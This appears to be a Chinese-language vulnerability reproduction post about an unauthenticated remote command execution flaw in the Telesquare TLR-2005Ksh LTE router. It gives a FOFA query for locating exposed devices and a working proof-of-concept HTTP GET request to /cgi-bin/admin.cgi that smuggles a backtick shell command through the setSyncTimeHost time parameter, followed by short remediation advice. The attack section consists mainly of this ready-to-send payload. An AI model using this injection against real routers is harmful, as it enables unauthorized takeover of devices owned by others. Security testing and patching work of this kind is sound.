



# Telesquare TLR-2005Ksh 路由器 RCE漏洞复现

### 0x01 产品简介

 Telesquare Tlr-2005Ksh是韩国Telesquare公司的一款 Sk 电讯 [Lte](https://so.csdn.net/so/search?q=Lte&spm=1001.2101.3001.7020) 路由器。

### 0x02 漏洞概述

  Telesquare TLR-2005Ksh存在[安全漏洞](https://so.csdn.net/so/search?q=%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经授权的攻击者可通过setSyncTimeHost执行任意命令获取服务器权限。

### 0x03 复现环境

FOFA：app="TELESQUARE-TLR-2005KSH"



### 0x04 漏洞复现 

PoC

```cobol
GET /cgi-bin/admin.cgi?Command=setSyncTimeHost&time=`id>1.txt` HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Connection: close
```



PS:将命令执行结果写进txt

验证



### 0x05 修复建议

关闭互联网暴露面或者接口设置访问权限

升级至安全版本
